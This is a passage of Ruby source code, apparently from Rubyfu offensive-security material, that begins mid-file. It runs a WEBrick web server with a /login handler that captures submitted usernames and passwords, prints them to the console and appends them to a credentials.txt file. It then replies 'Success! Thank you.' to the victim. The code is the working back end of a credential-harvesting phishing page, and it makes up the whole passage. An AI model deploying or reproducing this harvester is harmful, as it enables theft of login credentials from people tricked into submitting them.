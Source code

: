 ```
end

class Login < WEBrick::HTTPServlet::AbstractServlet

  # Control 'POST' request/response
  def do_POST(req, res)
    status, content_type, body = save_login(req)
    res.body  = body
  end

  # Save POST request
  def save_login(req)
    username, password = req.query['username'], req.query['password']

    if !(username && password).empty?
      # Print Credentials to console
      puts "\n-----[ START OF POST ]-----"
      puts "[+] #{username}:#{password}"
      puts "-----[ END OF POST ]-----\n\n"
      # Write Credentials to file
      File.open("credentials.txt", '+a') {|f| f.puts "#{username}:#{password}"}
      return 200, 'text/plain', 'Success! Thank you.'
    else
      puts "[!] Empty username and password."
      return 404, 'text/plain', 'Wrong username or password!'
    end

  end
end

begin
  port = ARGV[0]
  raise if ARGV.size < 1

  # Start Web Server
  puts "[+] Starting HTTP server on port: #{port}\n"
  server = WEBrick::HTTPServer.new(ServerName: "Rubyfu HTTP Server",
                                   Port: port,
                                   BindAddress: '0.0.0.0',
                                   AccessLog: [],
                                   Logger: WEBrick::Log.new(File.open(File::NULL, 'w'))
                                   )
  server.mount("/", RubyfuServlet)
  server.mount("/login", Login)
  trap "INT" do server.shutdown end
  server.start

rescue Exception => e
  puts "ruby #{__FILE__} <WEB_SERVER_PORT>" if ARGV.size < 1
  puts e, e.backtrace
  exit 0
end 
```

